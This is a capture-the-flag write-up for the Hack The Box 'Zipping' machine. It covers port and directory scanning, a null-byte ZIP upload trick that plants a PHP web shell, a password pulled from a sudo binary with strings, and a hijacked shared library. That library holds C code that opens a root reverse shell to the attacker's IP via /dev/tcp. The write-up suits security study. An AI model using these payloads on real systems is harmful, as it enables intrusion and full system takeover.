

# Zipping

This is the write-up for the Zipping machine from Hack The Box.

# Reconnaicense

First, we executed a full port scan on the machine.

```bash
╭─[us-free-3]-[10.10.14.217]-[th3g3ntl3m4n@kali]-[~/htb/seasonal/zipping]
╰─ $ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.11.229
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Now we execute a port scan only on the open ports found before.

```bash
╭─[us-free-3]-[10.10.14.217]-[th3g3ntl3m4n@kali]-[~/htb/seasonal/zipping]
╰─ $ sudo nmap -vv -sC -sV -Pn -p 22,80 -oA nmap/zipping 10.10.11.229
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP6mSkoF2+wARZhzEmi4RDFkpQx3gdzfggbgeI5qtcIseo7h1mcxH8UCPmw8Gx9+JsOjcNPBpHtp2deNZBzgKcA=
|   256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOXXd7dM7wgVC+lrF0+ZIxKZlKdFhG2Caa9Uft/kLXDa
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.54 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.54 (Ubuntu)
|_http-title: Zipping | Watch store
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Accessing the web page running on port 80, we got the following home page.



# Enumeration

We execute a brute-force directory enumeration on the domain running on port 80.

```bash
╭─[us-free-3]-[10.10.14.217]-[th3g3ntl3m4n@kali]-[~/htb/seasonal/zipping]
╰─[☢] $ gobuster dir -e -u "http://10.10.11.229/" -w "/usr/share/seclists/Discovery/Web-Content/raft-small-words.txt" -t 20 -x php,txt -o gobuster/zipping_root --exclude-length 277
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.229/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] Exclude Length:          277
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.10.11.229/index.php            (Status: 200) [Size: 16738]
http://10.10.11.229/uploads              (Status: 301) [Size: 314] [--> http://10.10.11.229/uploads/]
http://10.10.11.229/upload.php           (Status: 200) [Size: 5321]
http://10.10.11.229/shop                 (Status: 301) [Size: 311] [--> http://10.10.11.229/shop/]
http://10.10.11.229/assets               (Status: 301) [Size: 313] [--> http://10.10.11.229/assets/]
http://10.10.11.229/.                    (Status: 200) [Size: 16738]
```

We identified an upload functionality in `/upload.php`. Accessing this endpoint, we got.


As described in the image, we have to submit a ZIP file with a zipped PDF file. After some research, we first created our malicious PHP web shell.


Then we saved this file as `th3g3ntl3m4n.phpA.pdf` and we zipped this file.

```bash
╭─[us-free-3]-[10.10.14.217]-[th3g3ntl3m4n@kali]-[~/htb/seasonal/zipping]
╰─ $ zip -y cv.zip th3g3ntl3m4n.phpA.pdf 
  adding: th3g3ntl3m4n.phpA.pdf (stored 0%)
```

Now we edit the ZIP file using a hex-editor tool and where there is the A on our malicious file, we change it to NULLBYTE (00).

Change this:


To:


Now we open a listener on our attack machine and upload the file.


We open the file on our browser delete the .pdf part and passing our parameter defined in our PHP web shell.


Now, we execute a Python reverse shell through the parameter `c`.


Checking our listener:


# Privilege Escalation

We execute the `sudo -l` command and we noticed we can execute the following binary as root without password.

```bash
(remote) rektsu@zipping:/home/rektsu$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

We execute the binary with sudo and it asks for a password.

```bash
(remote) rektsu@zipping:/home/rektsu$ sudo /usr/bin/stock
Enter the password:
```

We execute the strings command on this binary and we could get the password.

```bash
(remote) rektsu@zipping:/home/rektsu$ strings /usr/bin/stock                                                                                                                                                                                 
/lib64/ld-linux-x86-64.so.2                                                                                                                                                                                                                  
mgUa                                                                                                                                                                                                                                         
fgets                                                                                                                                                                                                                                        
stdin                                                                                                                                                                                                                                        
puts                                                                                                                                                                                                                                         
exit                                                                                                                                                                                                                                         
fopen                                                                                                                                                                                                                                        
__libc_start_main                                                                                                                                                                                                                            
fprintf
...
u+UH                                                                                                                                                                                                                                         
Hakaize                                                                                                                                                                                                                                      
St0ckM4nager
/root/.stock.csv  
Enter the password: 
Invalid password, please try again.
================== Menu ==================
1) See the stock
2) Edit the stock 
3) Exit the program
Select an option:  
You do not have permissions to read the file
File could not be opened.
================== Stock Actual ==================
Colour     Black   Gold    Silver
Amount     %-7d %-7d %-7d
Quality   Excelent Average Poor
Amount    %-9d %-7d %-4d
Exclusive Yes    No
Amount    %-4d   %-4d
Warranty  Yes    No
================== Edit Stock ==================
Enter the information of the watch you wish to update:
Colour (0: black, 1: gold, 2: silver): 
Quality (0: excelent, 1: average, 2: poor): 
Exclusivity (0: yes, 1: no): 
Warranty (0: yes, 1: no): 
Amount: 
Error: The information entered is incorrect
%d,%d,%d,%d,%d,%d,%d,%d,%d,%d
The stock has been updated correctly.
;*3$"
GCC: (Debian 12.2.0-3) 12.2.0
```

We download the binary to our machine and execute the `strace` on it.


```bash
╭─[us-free-3]-[10.10.14.217]-[th3g3ntl3m4n@kali]-[~/htb/seasonal/zipping]                                                                                                                                                                    
╰─ $ strace ./stock                                                                                                                                                                                                                          
execve("./stock", ["./stock"], 0x7fff3e5a7ee0 /* 60 vars */) = 0                                                                                                                                                                             
brk(NULL)                               = 0x5647d976d000
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7fcbdff27000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
newfstatat(3, "", {st_mode=S_IFREG|0644, st_size=104054, ...}, AT_EMPTY_PATH) = 0
mmap(NULL, 104054, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7fcbdff0d000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\220x\2\0\0\0\0\0"..., 832) = 832
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
newfstatat(3, "", {st_mode=S_IFREG|0755, st_size=1926256, ...}, AT_EMPTY_PATH) = 0
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
mmap(NULL, 1974096, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7fcbdfd2b000
mmap(0x7fcbdfd51000, 1396736, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x26000) = 0x7fcbdfd51000
mmap(0x7fcbdfea6000, 344064, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x17b000) = 0x7fcbdfea6000
mmap(0x7fcbdfefa000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1cf000) = 0x7fcbdfefa000
mmap(0x7fcbdff00000, 53072, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7fcbdff00000
close(3)                                = 0
mmap(NULL, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7fcbdfd28000
...
read(0, St0ckM4nager
"St0ckM4nager\n", 1024)         = 13
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so\20\32\377\177", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
write(1, "\n================== Menu ======="..., 44
================== Menu ==================
) = 44
write(1, "\n", 1
)                       = 1
write(1, "1) See the stock\n", 171) See the stock
)      = 17
write(1, "2) Edit the stock\n", 182) Edit the stock
)     = 18
write(1, "3) Exit the program\n", 203) Exit the program
)   = 20
write(1, "\n", 1
)                       = 1
write(1, "Select an option: ", 18Select an option: )      = 18
read(0,
```

We see in red that the binary opens a Shared Library Object `(libcounter.so)` that is in `/home/rektsu/.config` directory. Checking this directory we see we have write permission in it.

```bash
(remote) rektsu@zipping:/home/rektsu$ ls -la /home/rektsu/
total 44
drwxr-x--x 7 rektsu rektsu 4096 Aug  7 12:00 .
drwxr-xr-x 3 root   root   4096 Jan 27  2023 ..
lrwxrwxrwx 1 root   root      9 Jan 27  2023 .bash_history -> /dev/null
-rw-r--r-- 1 rektsu rektsu  220 Oct  7  2022 .bash_logout
-r--r--r-- 1 rektsu rektsu 3780 Apr  1 02:13 .bashrc
drwx------ 2 rektsu rektsu 4096 Jan 27  2023 .cache
drwxrwxr-x 2 rektsu rektsu 4096 May  4 19:49 .config
drwx------ 3 rektsu rektsu 4096 Apr 30 18:01 .gnupg
drwxrwxr-x 3 rektsu rektsu 4096 Jan 27  2023 .local
-rw-r--r-- 1 rektsu rektsu  810 Feb  4  2023 .profile
drwxrwxr-x 2 rektsu rektsu 4096 Apr  1 02:18 .ssh
-rw-r----- 1 root   rektsu   33 Aug 30 20:14 user.txt
```

We write a malicious code in C to get a reverse shell as root and compile the program in order to generate the same name it is the Shared Library Object file.

```c
#include <stdlib.h>
#include <unistd.h>

int _init() {
   setuid(0);
   setgid(0);
   system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.217/443 0>&1'");
}
```

Compiling the file.

```bash
╭─[us-free-3]-[10.10.14.217]-[th3g3ntl3m4n@kali]-[~/htb/seasonal/zipping]
╰─ $ gcc -shared -fPIC -nostartfiles -o libcounter.so th3g3ntl3m4n.c
╭─[us-free-3]-[10.10.14.217]-[th3g3ntl3m4n@kali]-[~/htb/seasonal/zipping]
╰─ $ ls -la
total 80
drwxr-xr-x 8 th3g3ntl3m4n th3g3ntl3m4n  4096 Aug 30 16:57 .
drwxr-xr-x 6 th3g3ntl3m4n th3g3ntl3m4n  4096 Aug 30 15:06 ..
-rw-r--r-- 1 th3g3ntl3m4n th3g3ntl3m4n   225 Aug 30 16:23 cv.zip
drwxr-xr-x 2 th3g3ntl3m4n th3g3ntl3m4n  4096 Aug 30 15:17 docs
drwxr-xr-x 2 th3g3ntl3m4n th3g3ntl3m4n  4096 Aug 30 15:17 evidences
drwxr-xr-x 3 th3g3ntl3m4n th3g3ntl3m4n  4096 Aug 30 15:17 exploitation
drwxr-xr-x 2 th3g3ntl3m4n th3g3ntl3m4n  4096 Aug 30 15:38 gobuster
-rwxr-xr-x 1 th3g3ntl3m4n th3g3ntl3m4n 14104 Aug 30 16:57 libcounter.so
drwxr-xr-x 2 th3g3ntl3m4n th3g3ntl3m4n  4096 Aug 30 15:46 nmap
-rwxr-xr-x 1 th3g3ntl3m4n th3g3ntl3m4n 16672 Aug 30 16:42 stock
-rw-r--r-- 1 th3g3ntl3m4n th3g3ntl3m4n   156 Aug 30 16:56 th3g3ntl3m4n.c
-rw-r--r-- 1 th3g3ntl3m4n th3g3ntl3m4n    33 Aug 30 16:18 th3g3ntl3m4n.phpA.pdf
drwxr-xr-x 2 th3g3ntl3m4n th3g3ntl3m4n  4096 Aug 30 15:17 www
```

We upload the shared library file to the `.config/` directory, open a listener on our machine, and execute the stock binary as sudo.

```bash
(remote) rektsu@zipping:/home/rektsu/.config$ 
(local) pwncat$ upload libcounter.so
./libcounter.so ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 14.1/14.1 KB • ? • 0:00:00
[17:00:13] uploaded 14.10KiB in 2.34 seconds

(remote) rektsu@zipping:/home/rektsu/.config$ ls -la
total 24
drwxrwxr-x 2 rektsu rektsu  4096 Aug 30 21:00 .
drwxr-x--x 7 rektsu rektsu  4096 Aug  7 12:00 ..
-rw-r--r-- 1 rektsu rektsu 14104 Aug 30 21:00 libcounter.so

(remote) rektsu@zipping:/home/rektsu/.config$ sudo /usr/bin/stock 
Enter the password: St0ckM4nager
```

We get the reverse connection on our listener.

```bash
╭─[us-free-3]-[10.10.14.217]-[th3g3ntl3m4n@kali]-[~/htb/seasonal/zipping]
╰─ $ python3 -m pwncat -lp 443
/home/th3g3ntl3m4n/.local/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[16:59:10] Welcome to pwncat 🐈!                                                                       __main__.py:164
[17:01:05] received connection from 10.10.11.229:41588                                                      bind.py:84
[17:01:09] 10.10.11.229:41588: registered new host w/ db                                                manager.py:957
(local) pwncat$                                                                                                       

(remote) root@zipping:/home/rektsu/.config# id
uid=0(root) gid=0(root) groups=0(root)
```

